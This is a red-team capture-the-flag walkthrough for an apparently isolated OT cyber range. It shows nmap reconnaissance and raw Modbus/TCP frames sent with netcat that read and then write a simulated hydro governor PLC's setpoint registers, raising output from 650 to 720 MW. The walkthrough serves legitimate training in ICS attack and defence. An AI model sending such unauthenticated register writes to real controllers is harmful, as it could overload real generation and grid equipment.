










# Prabal Urja | Scenario 02 - Red Team Walkthrough

**Challenge:** Silent Generation Bias  
**Target controller:** `PU-GOV-PLC-02`  
**Protocol:** Real Modbus/TCP via OpenPLC, Unit ID `1`  
**Exercise endpoint:** `<ip>:502`  
**Operator console:** `http://<ip>:8090/`  
**Simulator:** `http://<ip>:8091/health`  
**Exercise date:** 30 October 2026  
**Scope:** Isolated, authorised OT cyber-range simulation

> **Observed result:** The remote Red Team client issued real Modbus/TCP requests, increased the governor setpoint from **650 MW** to **720 MW**, and obtained confirmed process effects. The simulator returned `GENERATION_BIAS_CONFIRMED`, with actual generation **720 MW**, transformer loading **98.05%** and corridor loading **92.53%**. The CTF scoring dashboard was reported as `DOWN` by the participant, but a separate screenshot of the exact Scenario 2 scoring-TTP output was not supplied. The installed OpenPLC service remained responsive.

## 1. Mission and starting information

The Red Team's aim is to test whether reachable Modbus/TCP clients can manipulate Unit-2's governor setpoint without application-level master authentication, creating sustained simulated electrical loading while the PLC and HMI remain available. This exercise does **not** involve real hydroelectric equipment.

**Scenario 1 connection:** The previously solved OPC UA challenge revealed the engineering metadata `DownstreamController=PU-GOV-PLC-02` and `SouthboundProtocol=Modbus/TCP`. This is a genuine discovery clue; it does not by itself supply a routable address. Here, the range assigned `<ip>`, and the Red Team independently confirmed the Modbus service at that address.

The following walkthrough describes the recorded successful test. New participants should **discover register meanings through authorised engineering information and by correlating reads with the operator console** before using the solution register map below.

## 2. Reconnaissance: find the industrial service

From the Red Team workstation, perform a narrow scan:

```bash
nmap -Pn -sT -sV -p 502,8080,8090,8091,8443 <ip>
```

**Why:** `-Pn` avoids relying on ping; `-sT` uses a TCP connect scan; `-sV` identifies application services; `-p` limits probes to the approved range ports. No broad OT scanning or brute force is needed.

**Observed:** TCP `502`, `8090` and `8091` were reachable; engineering ports `8080` and `8443` were filtered remotely. The service probe identified `502/tcp` as Modbus TCP.



Next, try the standard Nmap Modbus-discovery script:

```bash
nmap -Pn -sT -p 502 --script modbus-discover <ip>
```

The running PLC returned a Modbus exception, `ILLEGAL FUNCTION` (exception `0x01`), to the discovery request. **This is not evidence that the PLC is broken**: support for one optional request does not prove support for all Modbus functions. A later FC03 holding-register read confirmed that the device was actually communicating.



## 3. Observe the approved baseline before touching registers

Open `http://<ip>:8090/` in a browser. Record the dispatch setpoint, generation, transformer and corridor loading, governor mode, command sequence and process risk. This is a **read-only** baseline step.



The HMI at the beginning of this exercise showed:

| Quantity | Verified baseline |
|---|---:|
| Dispatch setpoint | 650 MW |
| Actual generation | 650 MW |
| GT-2 transformer loading | 87.6% |
| North corridor loading | 72.0% |
| Operating mode | Automatic load control |
| Ramp rate | 1.0 MW/s |
| Command sequence | 101 |
| Process risk | NORMAL |

Validate the browser values using the live JSON API, rather than assuming the UI is accurate:

```bash
curl -sS http://<ip>:8090/api/live
```

The screenshot confirms `modbus_connected=true`, `setpoint_mw=650`, `actual_generation_mw=650`, `command_sequence=101`, `risk_state=0`.



## 4. Read the native Modbus holding registers

The recorded exercise used **Netcat** to send native binary Modbus/TCP frames. This is a real industrial protocol exchange, not a Python script imitating results.

On **macOS** with the built-in `nc`, the successful command was:

```bash
TARGET=<ip>
printf '\x00\x01\x00\x00\x00\x06\x01\x03\x04\x00\x00\x06' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C
```

On **Ubuntu/Linux**, replace the Netcat options with `nc -w 4 -q 1`. The exact `-G` option used above is specific to the macOS implementation and fails on the Ubuntu version used in the lab:

```bash
TARGET=<ip>
printf '\x00\x01\x00\x00\x00\x06\x01\x03\x04\x00\x00\x06' | nc -w 4 -q 1 "$TARGET" 502 | hexdump -C
```

**Protocol meaning:** The request has transaction ID `0001`, protocol ID `0000`, Unit ID `01`, function `03` (Read Holding Registers), start address `0x0400` (decimal `1024`), and a count of six registers. Each register is a 16-bit unsigned value returned in big-endian order.

The actual response was:

```text
00 01 00 00 00 0f 01 03 0c 02 8a 00 0a 00 01 00 00 00 64 00 65
```



**Decoded response and engineering map** (zero-based Modbus addresses in this installation):

| Register | Raw value | Meaning |
|---|---:|---|
| `1024` | 650 | Generator setpoint, MW |
| `1025` | 10 | Ramp rate, scale 0.1 MW/s |
| `1026` | 1 | Governor mode, automatic |
| `1027` | 0 | Maintenance override disabled |
| `1028` | 100 | Cooling demand, percent |
| `1029` | 101 | Command sequence |

**Why this matters:** Comparing register data against the HMI establishes which writable memory location controls dispatch rather than blindly writing unrelated PLC addresses.

## 5. First controlled write: 650 to 655 MW

The exercise used **Modbus Function Code `06` (Write Single Register)**. It first changed the setpoint by only 5 MW, then advanced the command sequence. Both are within the test simulator's authorised engineering bounds.

On macOS, with `TARGET` set as above:

```bash
# Set governor register 1024 to 655 (0x028f)
printf '\x00\x03\x00\x00\x00\x06\x01\x06\x04\x00\x02\x8f' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C

# Advance command sequence register 1029 from 101 to 102 (0x0066)
printf '\x00\x04\x00\x00\x00\x06\x01\x06\x04\x05\x00\x66' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C

# Read back the six command registers
printf '\x00\x05\x00\x00\x00\x06\x01\x03\x04\x00\x00\x06' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C
```

**What proves acceptance:** Both FC06 responses echoed the written addresses and values, and the FC03 readback contained setpoint `655` and command sequence `102`. A Modbus acknowledgement alone would not prove the process responded, so the HMI was checked separately.



The HMI subsequently displayed 655 MW setpoint and 655 MW generation, transformer loading 88.3% and corridor 73.4%. The process risk remained `NORMAL`.



## 6. Increase dispatch to 700 MW and observe stress

After the first test succeeded, the Red Team made a staged, controlled increase. The same single-register write operation was used, without changing governor mode, ramp rate or cooling demand.

```bash
# Setpoint register 1024: 700 decimal = 0x02bc
printf '\x00\x06\x00\x00\x00\x06\x01\x06\x04\x00\x02\xbc' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C

# Command sequence register 1029: 103 decimal = 0x0067
printf '\x00\x07\x00\x00\x00\x06\x01\x06\x04\x05\x00\x67' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C
```



The corresponding HMI screenshot was captured while the generator was still ramping:

| Indicator | Actual screenshot |
|---|---:|
| Setpoint | 700 MW |
| Actual generation | 689 MW |
| Transformer loading | 93.3% |
| Northern corridor loading | 83.1% |
| Process risk | STRESSED |
| Command sequence | 103 |



**Interpretation:** The actual output lagged behind the new setpoint because the simulator implements the governor ramp. The loading changes were calculated by the running process model, not substituted in the Red Team client.

## 7. Final write: 720 MW and confirmed generation bias

The last recorded stage raised the requested setpoint to **720 MW** and advanced the command sequence to **104**.

```bash
# Setpoint register 1024: 720 decimal = 0x02d0
printf '\x00\x08\x00\x00\x00\x06\x01\x06\x04\x00\x02\xd0' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C

# Command sequence register 1029: 104 decimal = 0x0068
printf '\x00\x09\x00\x00\x00\x06\x01\x06\x04\x05\x00\x68' | nc -G 3 -w 4 "$TARGET" 502 | hexdump -C
```

These bytes document **the recorded exercise state**, not a generic safe-to-replay command sequence for any PLC. In a fresh run, verify the current register map, sequence value, engineering limits and permitted target before writing.

The HMI later showed setpoint **720 MW**, actual simulated generation **720 MW**, transformer loading approximately **98.0%**, corridor loading approximately **92.5%**, and process risk **CRITICAL**. The PLC communications indicator remained healthy.


Confirm the attack using the independent simulator-health endpoint:

```bash
curl -sS http://<ip>:8091/health
```

The actual supplied result contained `scenario_state=GENERATION_BIAS_CONFIRMED`, `actual_generation_mw=720.0`, `transformer_loading_pct=98.05`, and `corridor_loading_pct=92.53`.



**Success condition implemented in the simulator:** the setpoint is at least 720 MW, actual generation at least 710 MW, and transformer or corridor loading at least 88%, held for the configured confirmation period (20 seconds in the standard configuration). The observed `GENERATION_BIAS_CONFIRMED` state is the evidence that the running simulator accepted the completed objective.

## 8. CTF scoring and what DOWN means

The Scenario 2 scoring-TTP was revised to fail on the simulator's `GENERATION_BIAS_CONFIRMED` state instead of only checking port and service availability. The participant reported that the CTF service changed to **DOWN** following the successful attack.

This is deliberately different from a service crash. The OpenPLC Modbus/TCP listener and operator console remained operational; the CTF was marking the **integrity of the simulated operating condition** as failed.

**Evidence limitation:** The supplied screenshots contain the simulator's confirmed attack state and the participant's report that scoring was DOWN; they do **not** contain a captured Scenario 2 TTP output demonstrating exit code `1` or the dashboard's actual deduction. Capture this separately if it is required by the assessor.

<!-- IMAGE PLACEHOLDER 12: Capture the corrected Scenario 2 TTP producing SERVICE_STATUS:DOWN and exit code 1. Suggested name: images/12-service-ttp-down.png -->

## 9. Discovery of the next scenario (Scenario 2 to 3)

During the exercise, the operator console's **Intertie Coordination** panel identified:

- Remote asset: `PU-RB-RTU-07`
- Site: River Bend Remote Substation
- Operational relationship: Feeder and bus-tie switching coordination during corridor stress
- Notice: Switching requires control-centre authorisation


The source also defines a read-only endpoint:

```bash
curl -sS http://<ip>:8090/api/intertie
```

**What is verified:** The asset identifier and operational dependency are present in the running Scenario 2 HMI, as captured in the screenshots. **What is not verified:** DNS resolution, a routable Scenario 3 IP, a DNP3 endpoint, or authorisation to operate that endpoint. The HMI clue is not evidence of a complete network pivot. Verify the Scenario 3 deployment separately.

## 10. Technical interpretation and limits

**Vulnerability demonstrated:** The exposed OpenPLC-backed Modbus/TCP interface accepted remote FC06 write requests to the governor command registers without an authenticated-master identity check. These writes changed the simulation's setpoint; its process model calculated the consequent grid loading. The weakness is in the intentionally vulnerable **lab control path**, not a claim about a real utility.

**MITRE ATT&CK for ICS mapping:** `T0836` Modify Parameter; `T0831` Manipulation of Control; `T1692.001` Unauthorized Message: Command Message (as observed in the isolated environment). The Nmap activity provides recon context, not proof of a second exploitation method.

**Still separate from Scenario 1:** The matching asset identity establishes the intended dependency, but this demonstration does not prove the two scenarios share one coupled power-flow simulation. The Scenario 3 asset clue is genuinely visible, but native DNP3 reachability remains untested. Neither missing link is presented as verified.

**Rules of engagement:** Use only approved isolated OT test assets. No indiscriminate flooding, service destruction, random feedback-register writes, operating-limit exceedance, or unauthorised pivot to Scenario 3.
